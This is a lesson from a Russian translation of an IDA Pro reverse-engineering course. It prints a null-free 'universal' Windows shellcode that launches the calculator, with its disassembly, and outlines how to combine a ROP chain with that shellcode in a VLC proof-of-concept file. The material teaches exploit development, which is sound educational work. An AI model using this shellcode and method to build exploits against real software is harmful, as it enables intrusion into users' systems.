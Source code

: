 # Часть 40

[\[Используемые материалы\]](.gitbook/assets/files/40.zip)

**УНИВЕРСАЛЬНЫЙ ШЕЛЛКОД**

Существует тысячи типов шеллкодов. Каждый из них разработан в соответствии с целью, которую мы должны эксплуатировать.

Существую шеллкоды, которые используются для доказательства того, что вы можете запустить код после эксплуатации. Обычно они запускают калькулятор и ничего больше.

Очевидно, что существуют более сложные шеллкоды, которые открывают удаленные консоли, стараются остаться в системе не смотря на то, что эксплуатируемая программа перестает работать или закрывается, инжектируют себя в некоторый другой процесс системы, сохраняет себя как файл и т.д.

Существует библиотека шеллкодов, которую мы можем найти в **GOOGLE** или запрограммировать, если нам нужно что-то особенное.

С этого момента мы будем использовать **УНИВЕРСАЛЬНЫЙ ШЕЛЛКОД**, который работает для всех версией **WINDOWS** и запускает калькулятор. При этом мы продемонстрируем выполнение кода.

Я нашел его здесь:

[https://packetstormsecurity.com/fil...-Null-Free-CreateProcessA-Calc-Shellcode.html](https://packetstormsecurity.com/files/102847/All-Windows-Null-Free-CreateProcessA-Calc-Shellcode.html)

>shellcode=**"\x31\xdb\x64\x8b\x7b\x30\x8b\x7f\x0c\x8b\x7f\x1c\x8b\x47\x08\x8b\x77\x20\x8b\x3f\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03\x78\x3c\x8b"\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x89\xdd\x8b\x34\xaf\x01\xc6\x45\x81\x3e\x43\x72\x65\x61\x75\xf2\x81\x7e\x08\x6f\x63\x65\x73\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c\x6f\x8b\x7a\x1c\x01\xc7\x8b\x7c\xaf\xfc\x01\xc7\x89\xd9\xb1\xff\x53\xe2\xfd\x68\x63\x61\x6c\x63\x89\xe2\x52\x52\x53\x53\x53\x53\x53\x53\x52\x53\xff\xd7"**

Я могу использовать его в скрипте **PYTHON** точно так же, если у меня есть место для его добавления.

Сами байты эксплоита такие:

`31 db 64 8b 7b 30 8b 7f 0c 8b 7f 1c 8b 47 08 8b 77 20 8b 3f 80 7e 0c 33 75 f2 89 c7 03 78 3c 8b" 57 78 01 c2 8b 7a 20 01 c7 89 dd 8b 34 af 01 c6 45 81 3e 43 72 65 61 75 f2 81 7e 08 6f 63 65 73 75 e9 8b 7a 24 01 c7 66 8b 2c 6f 8b 7a 1c 01 c7 8b 7c af fc 01 c7 89 d9 b1 ff 53 e2 fd 68 63 61 6c 63 89 e2 52 52 53 53 53 53 53 53 52 53 ff d7`

```assembly
MOV EDI,DWORD PTR FS:[EBX+30]
XOR EBX,EBX
MOV EDI,DWORD PTR DS:[EDI+C]
MOV EDI,DWORD PTR DS:[EDI+1C]
MOV EAX,DWORD PTR DS:[EDI+8]
MOV ESI,DWORD PTR DS:[EDI+20]
MOV EDI,DWORD PTR DS:[EDI]
CMP BYTE PTR DS:[ESI+C],33
JNZ SHORT CANARY_c.00A7138A
MOV EDI,EAX
ADD EDI,DWORD PTR DS:[EAX+3C]
MOV EDX,DWORD PTR DS:[EDI+78]
ADD EDX,EAX
MOV EDI,DWORD PTR DS:[EDX+20]
ADD EDI,EAX
MOV EBP,EBX
MOV ESI,DWORD PTR DS:[EDI+EBP*4]
ADD ESI,EAX
INC EBP
CMP DWORD PTR DS:[ESI],61657243
JNZ SHORT CANARY_c.00A713A9
CMP DWORD PTR DS:[ESI+8],7365636F
JNZ SHORT CANARY_c.00A713A9
MOV EDI,DWORD PTR DS:[EDX+24]
ADD EDI,EAX
MOV BP,WORD PTR DS:[EDI+EBP*2]
MOV EDI,DWORD PTR DS:[EDX+1C]
ADD EDI,EAX
MOV EDI,DWORD PTR DS:[EDI+EBP*4-4]
ADD EDI,EAX
MOV ECX,EBX
MOV CL,0FF
PUSH EBX
LOOPD SHORT CANARY_c.00A713D8
PUSH 636C6163
MOV EDX,ESP
PUSH EDX
PUSH EDX
PUSH EBX
PUSH EBX
PUSH EBX
PUSH EBX
PUSH EBX
PUSH EBX
PUSH EDX
PUSH EBX
CALL EDI
```

Эти байты запускают калькулятор везде где мы их вставляем. Хорошо, что у этих байтов нет нулей. Хотя могут быть программы, который отвергают какой-то конкретный символ отличный от нуля. Это будет зависеть от случая.

Мы уже знаем, как сделать **ROP** и у нас уже есть универсальный шеллкод. Основной смысл состоит в том, чтобы практиковаться с программой **VLC**, для которой мы уже сделали **POC**. Я был бы очень рад, если бы кто-то отправил мне полный файл и туториал, объясняющий то, что Вы сделали. Я бы добавил бы первого человека, который отправил бы мне хорошо объясняющий туториал в качестве приложения в одной из глав.

**ROP** может быть сделан вручную или с помощью **MONA**. Для нас нет никаких проблем. Вы должны найти модуль **DLL** без защиты **ASLR** и если таких больше чем один, **MONA** может использовать больше одной **DLL** в качестве аргумента, для объединения **ROP** объединяющей обе **DLL**.

Что касается же скрипта **PYTHON**, то я дам вам его схему. Как только вы создадите **ROP**, откройте файл **POC.TY+**

![](.gitbook/assets/40/01.png)

И ищите числа **41424344**, которые перезаписывают **АДРЕС ВОЗВРАТА**.

![](.gitbook/assets/40/02.png)

И здесь, в зависимости от размера **ROP** + **ШЕЛЛКОДА**,  скажем, что в качестве примера, **ROP** и **ШЕЛЛКОД** имеет длину **150** байтов. Я заменяю область по чуть-чуть начиная со значения **41424344**включительно. Предположим что это **160** байтов.

Я помечаю вниз, пока не получу отмеченную область требуемой длины.

![](.gitbook/assets/40/03.png)

Я заполняю выбранную область с помощью байта **90**.

![](.gitbook/assets/40/04.png)

Хорошо, проверьте размер области, где находятся байты **90**, которая больше чем размер **ROP** + **ШЕЛЛКОД**. Я записываю полученный размер. В моём случае он равен **160** байт.

![](.gitbook/assets/40/05.png)

Теперь у нас есть схема работы скрипта. Скрипт ещё не протестирован. Скрипт не работает. Мы не определили **ROP** или **ШЕЛЛКОД**. Вы можете использовать **УНИВЕРСАЛЬНЫЙ ШЕЛЛКОД**, который мы только что видели, если у вас нет проблем с каким-либо символом. Если это не так, вы должны найти другой шеллкод.

Основная идея состоит в том, что скрипт открывает файл заполненный байтами **90**, заменяет их полезной нагрузкой того же размера, которая содержит начало **ROP**,  **ШЕЛЛКОД** и дополнительные данные или заполнение. Затем скрипт сохраняет файл, чтобы проверить его работоспособность. Если файл заработает, то это будет считаться эксплоитом. А если нет заработает, нам нужно трассировать, чтобы увидеть почему так получилось.

Я был бы очень рад, если бы кто-то написал туториал и отправил мне рабочий эксплоит.Я бы увидел, что я зря не тратил время на написание туториалов.

Первый человек, который отправит мне туториал, будет добавлен в наш курс как победитель. Если людей будет больше одного, я загружу решению их в папку **SOLUCIONES** нашего курса, которую я создам для этого на своев Веб-Сервере, если это потребуется.

До следующей части **41**. Практикуйте и находите решение.

* * *

Автор оригинального текста — Рикардо Нарваха.

Перевод и адаптация на английский  язык — IvinsonCLS.

Перевод и адаптация на русский язык — Яша Яшечкин.

Перевод специально для форума системного и низкоуровневого программирования - WASM.IN

11.04.2018

Источник:

[**http://ricardonarvaja.info/WEB/INTRODUCCION%20AL%20REVERSING%20CON%20IDA%20PRO%20DESDE%20CERO/40-INTRODUCCION%20AL%20REVERSING%20CON%20IDA%20PRO%20DESDE%20CERO%20PARTE%2040.7z**](http://ricardonarvaja.info/WEB/INTRODUCCION%20AL%20REVERSING%20CON%20IDA%20PRO%20DESDE%20CERO/40-INTRODUCCION%20AL%20REVERSING%20CON%20IDA%20PRO%20DESDE%20CERO%20PARTE%2040.7z)
